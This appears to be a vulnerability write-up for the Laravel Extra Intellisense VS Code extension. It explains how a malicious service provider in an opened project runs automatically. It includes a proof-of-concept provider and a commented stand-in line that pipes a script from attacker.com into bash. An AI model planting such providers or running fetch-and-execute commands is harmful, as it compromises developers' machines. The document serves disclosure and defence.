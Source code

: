 # Laravel Extra Intellisense Security Analysis

## Remote Code Execution via Malicious Laravel Service Provider

### Vulnerability Name
Remote Code Execution via Malicious Laravel Service Provider

### Description
This vulnerability allows a threat actor to execute arbitrary code on a user's system by creating a specially crafted Laravel project with malicious code in service providers, middleware, or other Laravel bootstrap components.

The VS Code extension automatically bootstraps the entire Laravel application to extract information like routes, views, models, etc. When a user opens a Laravel project containing malicious code, that code will be executed whenever the extension performs its analysis of the project structure, which happens periodically and automatically.

Steps to trigger the vulnerability:
1. Attacker creates a legitimate-looking Laravel project with a hidden malicious service provider
2. Target user opens the project in VS Code with Laravel Extra Intellisense extension enabled
3. The extension automatically bootstraps the Laravel application, loading all service providers
4. The malicious service provider's code executes with the permissions of the VS Code process

### Impact
The attacker can execute arbitrary code on the user's system with the privileges of the VS Code process. This could lead to:
- Data exfiltration
- Installation of malware
- Unauthorized access to local files
- Lateral movement within the user's system
- Potential persistence mechanisms through scheduled tasks or other means

### Vulnerability Rank
High - While it requires the user to open a malicious project, the impact is severe (arbitrary code execution) and the execution happens automatically without user interaction once the project is opened.

### Currently Implemented Mitigations
The extension includes a security warning in the README that acknowledges this risk:

> "This extension runs your Laravel application automatically and periodically to get the information needed to provide autocomplete. [...] Also if you writing any sensitive code in your service providers, disable the extension temporarily to prevent unwanted application executing."

### Missing Mitigations
- No sandboxing or privilege restriction when executing PHP code
- No user prompt before analyzing unfamiliar projects
- No code scanning to detect potentially malicious service providers
- No option to disable automatic execution and require manual triggering of analysis
- No limitation on what Laravel components are loaded during bootstrap

### Preconditions
- User must open a Laravel project containing malicious code in VS Code
- The Laravel Extra Intellisense extension must be enabled
- The user must have PHP installed and accessible from the command line

### Source Code Analysis
The vulnerability originates in the `runLaravel` method in `helpers.ts`, which bootstraps the Laravel application:

```typescript
static runLaravel(code: string, description: string|null = null) : Promise<string> {
    code = code.replace(/(?:\r\n|\r|\n)/g, ' ');
    if (fs.existsSync(Helpers.projectPath("vendor/autoload.php")) && fs.existsSync(Helpers.projectPath("bootstrap/app.php"))) {
        var command =
            "define('LARAVEL_START', microtime(true));" +
            "require_once '" + Helpers.projectPath("vendor/autoload.php", true) + "';" +
            "$app = require_once '" + Helpers.projectPath("bootstrap/app.php", true) + "';" +
            "class VscodeLaravelExtraIntellisenseProvider extends \\Illuminate\\Support\\ServiceProvider" +
            "{" +
            "   public function register() {}" +
            "	public function boot()" +
            "	{" +
            "       if (method_exists($this->app['log'], 'setHandlers')) {" +
            "			$this->app['log']->setHandlers([new \\Monolog\\Handler\\ProcessHandler()]);" +
            "		}" +
            "	}" +
            "}" +
            "$app->register(new VscodeLaravelExtraIntellisenseProvider($app));" +
            "$kernel = $app->make(Illuminate\\Contracts\\Console\\Kernel::class);" +
            // ...execution continues
```

This code loads the Laravel application's autoloader and bootstrap file, which in turn loads all registered service providers. If a malicious service provider exists, it will be executed during this process.

The extension calls this method frequently. For example, in `RouteProvider.ts`:

```typescript
loadRoutes() {
    if (vscode.workspace.workspaceFolders instanceof Array && vscode.workspace.workspaceFolders.length > 0) {
        try {
            var self = this;
            Helpers.runLaravel(
                "echo json_encode(array_map(function ($route) {" +
                // ... processing code ...
                "}, app('router')->getRoutes()->getRoutes()));",
                "HTTP Routes"
            )
            // ...
        }
    }
}
```

Similar code exists in multiple provider classes, and they are all triggered automatically when the extension activates or when files change.

### Security Test Case
To demonstrate this vulnerability:

1. Create a malicious Laravel service provider:
   ```php
   <?php
   namespace App\Providers;

   use Illuminate\Support\ServiceProvider;

   class MaliciousProvider extends ServiceProvider
   {
       public function register()
       {
           // Create a file as proof of execution
           file_put_contents('/tmp/vscode_rce_proof.txt', 'Code execution successful at ' . date('Y-m-d H:i:s'));

           // A real attacker might use more dangerous code like:
           // shell_exec('curl -s https://attacker.com/payload | bash');
       }
   }
   ```

2. Register the provider in `config/app.php`:
   ```php
   'providers' => [
       // Standard Laravel providers...
       App\Providers\MaliciousProvider::class,
   ],
   ```

3. Send the project to the victim (e.g., as a GitHub repository, pull request, or downloaded template)

4. When the victim opens the project in VS Code with Laravel Extra Intellisense installed, the malicious code will execute automatically

5. Verify that `/tmp/vscode_rce_proof.txt` has been created, confirming successful code execution

This vulnerability is particularly dangerous because the code execution happens silently in the background without any indication to the user, and it will continue to be triggered periodically as the extension updates its cache of Laravel structures.

